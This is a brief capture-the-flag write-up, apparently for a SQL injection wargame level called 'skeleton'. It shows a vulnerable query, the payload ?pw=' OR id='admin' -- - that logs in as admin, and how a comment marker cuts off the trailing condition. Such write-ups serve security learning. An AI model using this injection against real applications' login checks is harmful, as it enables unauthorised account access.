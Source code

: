 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 10
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/4baddc49-08d9-4c11-a1da-59d9e17e5687)

We are provided with the SQL query:

```sql
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='{$_GET[pw]}' AND 1=0
```

We can provide the following URI:

```
?pw=' OR id='admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='' OR id='admin' -- -' AND 1=0

## Queried part:
SELECT id FROM prob_skeleton WHERE id='guest' AND pw='' OR id='admin'

## Commented part:
' AND 1=0
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/373ff0c7-ad97-4cd5-b184-95092bfb7d41)
